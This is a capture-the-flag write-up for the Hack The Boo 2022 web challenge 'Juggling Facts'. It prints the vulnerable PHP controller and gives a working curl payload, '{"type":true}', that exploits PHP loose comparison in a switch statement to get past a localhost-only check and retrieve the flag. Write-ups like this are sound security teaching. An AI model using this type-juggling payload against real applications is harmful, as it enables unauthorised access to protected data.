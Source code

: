 # Hack The Boo 2022

## Juggling Facts

> An organization seems to possess knowledge of the true nature of pumpkins. Can you find out what they honestly know and uncover this centuries-long secret once and for all?
>
>  Author: N/A
>
> [`web_juggling_facts.zip`](web_juggling_facts.zip)

Tags: _web_

## Preparation

Looking through the source code there is one interessting endpoint found ```api/getfacts``` that potentially will reveale a *secret*. The source code of the controller looks like this

```php
public function getfacts($router)
{
    $jsondata = json_decode(file_get_contents('php://input'), true);

    if ( empty($jsondata) || !array_key_exists('type', $jsondata))
    {
        return $router->jsonify(['message' => 'Insufficient parameters!']);
    }

    if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
    {
        return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
    }

    switch ($jsondata['type'])
    {
        case 'secrets':
            return $router->jsonify([
                'facts' => $this->facts->get_facts('secrets')
            ]);

        case 'spooky':
            return $router->jsonify([
                'facts' => $this->facts->get_facts('spooky')
            ]);

        case 'not_spooky':
            return $router->jsonify([
                'facts' => $this->facts->get_facts('not_spooky')
            ]);

        default:
            return $router->jsonify([
                'message' => 'Invalid type!'
            ]);
    }
}
```

## Solution

So calling secrets from non local address will just return a error message. But the switch statement has a little flaw. Php loose comparison evaluates ```true == "x"``` to ```true``` meaning, if ```type``` is just a bool with value ```true``` the first comparison succeeds and therefore will reveal the secrets.

```
$ curl -X POST -d '{"type":true}' http://161.35.164.157:32297/api/getfacts

{"facts":[{"id":19,"fact":"HTB{sw1tch_stat3m3nts_4r3_vuln3r4bl3!!!}","fact_type":"secrets"}]}
``

